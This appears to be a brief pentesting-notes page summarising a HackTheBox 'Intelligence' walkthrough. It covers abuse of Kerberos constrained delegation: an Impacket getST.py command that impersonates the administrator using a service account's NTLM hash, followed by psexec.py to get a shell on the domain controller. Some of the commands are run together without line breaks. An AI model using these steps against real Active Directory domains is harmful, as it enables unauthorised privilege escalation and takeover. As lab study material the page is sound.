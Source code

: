 # Allowed to Delegate To:

{% embed url="https://youtu.be/LI8wnTUc5-I?t=7961" %}

{% embed url="https://www.hackingarticles.in/intelligence-hackthebox-walkthrough/" %}

```
python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :6e03616eef48ba6a15be62280aefcdb2 -impersonate administrator
```

export KRB5CCNAME=administrator.ccacheecho "10.129.163.131 dc.intelligence.htb" >> /etc/hostsklist

![](https://blogger.googleusercontent.com/img/a/AVvXsEgBK43b6HsiVHsEHHfbE-jfg-YVMr9dmj8fWWzRXCp0foqcbKAdrVJ1zmU5fiYHp9UH5Uzmy9ukKyyigc0t2B8oTKRQrsbg83CjzNeXusSDOpBJTEtLOgEF86PhEvpJK-WSxvxsQ850usqdP9t8Xp6SI256bPCUoK33Zc3um3MJBb4tHwccv3OLl1yJSA=s16000)

Finally, we can use Impacket’s psexec to connect as an administrator and snag our root flag!

python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass dc.intelligence.htbcd ../../Users/Administratortype root.txt

![](https://blogger.googleusercontent.com/img/a/AVvXsEjXkmd4KS6O65OPnCk2xQZg758U3a\_CtE6PEBOoAv92aE6hss18FA3QD26wBNVbaGFh-S6bb\_Z22G1BgeRDoYG9ISIFoUNsStjCcIopD87QnJuARCIslipvoGIYV3sxeXk2bCnzmDJchPjReDlufgNcpTjeH33HwPVhfWTdz1wgBPSqlHGNCn9jeyp9AA=s16000)
